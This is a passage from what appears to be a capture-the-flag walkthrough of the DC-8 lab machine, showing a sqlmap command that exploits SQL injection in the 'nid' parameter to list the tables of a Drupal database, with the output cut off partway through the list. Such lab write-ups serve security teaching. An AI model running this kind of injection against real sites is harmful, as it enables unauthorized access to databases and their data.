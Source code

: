~~~
~~~

Now that we know the database, let's list the tables:

~~~
kali@kali:/data/DC_8/files$ sqlmap -u http://dc-8/?nid=3 -D d7db --tables

[REDACTED]

Database: d7db                                                                                                                                                                                                                             
[88 tables]
+-----------------------------+
| filter                      |
| system                      |
| actions                     |
| authmap                     |
| batch                       |
| block                       |
| block_custom                |
| block_node_type             |
| block_role                  |
| blocked_ips                 |
| cache                       |
| cache_block                 |
| cache_bootstrap             |
| cache_field                 |
| cache_filter                |
| cache_form                  |
| cache_image                 |
| cache_menu                  |
| cache_page                  |
| cache_path                  |
| cache_views                 |
| cache_views_data            |
| ckeditor_input_format       |
| ckeditor_settings           |
| ctools_css_cache            |
| ctools_object_cache         |
| date_format_locale          |
| date_format_type            |
| date_formats                |
| field_config                |
| field_config_instance       |
| field_data_body             |
| field_data_field_image      |
| field_data_field_tags       |
| field_revision_body         |
| field_revision_field_image  |
| field_revision_field_tags   |
| file_managed                |
| file_usage                  |
| filter_format               |
| flood                       |
| history                     |
| image_effects               |
| image_styles                |
| menu_custom                 |
| menu_links                  |
| menu_router                 |
| node                        |
| node_access                 |
| node_revision               |
~~~